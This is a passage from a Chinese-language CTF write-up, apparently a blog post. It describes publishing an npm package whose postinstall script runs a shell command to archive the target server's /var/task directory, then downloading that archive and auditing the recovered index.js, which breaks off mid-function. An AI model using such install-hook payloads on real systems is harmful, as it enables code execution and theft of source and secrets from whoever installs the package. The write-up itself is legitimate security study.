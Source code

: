 然后是推送包到 npmjs，

```
> npm login
> npm publish
```

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561304929a51daa27fdccd5106edc58cc4321e935-1024x420.png)

6、然后请求靶机，让其下载这个包。

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561306194f67238fc915299020a02cc29eef447be-1024x548.png)

7、我们把返回的 URL 所指向的压缩包下载下来解压看看，可以看到我们的命令执行结果。没找到像 flag 的文件。

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561306319e2df99af34dd65a3559b3dea1d600d5e-1024x713.png)

8、似乎 /var/task 是程序所在目录，打个包下下来看看。

继续修改 package.json，版本升级下，推包。

```
{
  "name": "glzjintest1",
  "version": "1.0.3",
  "description": "",
  "main": "index.js",
  "scripts": {
	"postinstall": "tar cvzf result.tar.gz /var/task/; exit 0"
  },
  "author": "",
  "license": "ISC"
}
```

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561306393a652e79071cc23c7c68a000164d67b3e-1024x305.png)

然后继续让靶机下载咱们这个包。

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561306473fed54076985195a279639ec4c6f92f77-1024x499.png)

解压 result.tar.gz

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561306516b750871bad9dc523565452eed30d3e76-1024x310.png)

9、审计源码 index.js

```
const koa = require("koa");
const AWS = require("aws-sdk");
const bodyparser = require('koa-bodyparser');
const Router = require('koa-router');
const async = require("async");
const archiver = require('archiver');
const fs = require("fs");
const cp = require("child_process");
const mount = require("koa-mount");
const cfg = {
	"Bucket":"static.l0ca1.xyz",
	"host":"static.l0ca1.xyz",
}

function getRandomStr(len) {
	var text = "";
	var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
	for (var i = 0; i &lt; len; i++)
		text += possible.charAt(Math.floor(Math.random() * possible.length));
	return text;
```